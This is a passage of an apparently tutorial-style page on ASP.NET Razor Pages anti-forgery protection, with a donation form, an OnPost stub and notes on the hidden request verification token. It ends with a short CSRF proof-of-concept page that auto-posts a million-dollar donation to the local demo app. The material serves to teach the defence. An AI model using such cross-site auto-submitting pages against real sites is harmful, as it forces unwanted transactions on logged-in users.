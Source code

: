 ```html
    <button type="submit">Donate</button>
</form>

<script>
    var slider = document.getElementById("amount");
    var output = document.getElementById("displayAmount");
    output.innerHTML = "$"+slider.value;

    slider.oninput = function () {
        output.innerHTML = "$" + this.value;
    }
</script>
```

Add the form's OnPost handler method to the corresponding `cshtml.cs` file:
```csharp
public void OnPost(string recipientId, decimal amount)
{
    // all the site needs is a recipient and an amount...
    //_donationService(recipientId, amount);
}
```

Load the app page in a browser and inspect the form element. The default TagHelpers that are injected into all razor pages will add a hidden input for `__RequestVerificationToken` on any post form element:

![](https://i.imgur.com/WoWREu5.png)

Select an org and an amount and debug the OnPost:

![](https://i.imgur.com/5Xj3vhp.png)

#### Create the attacker
Create the following index.html page separate from the form host application:
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>My CSRF Attack</title>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
</head>
  </head>
  <body>
    <script>
        $(document).ready(function(){
          $.post("https://localhost:44307/",
            {
                recipientId: "7",
                amount: 1000000.00
            });
        });
        </script>
  </body>
</html>
```
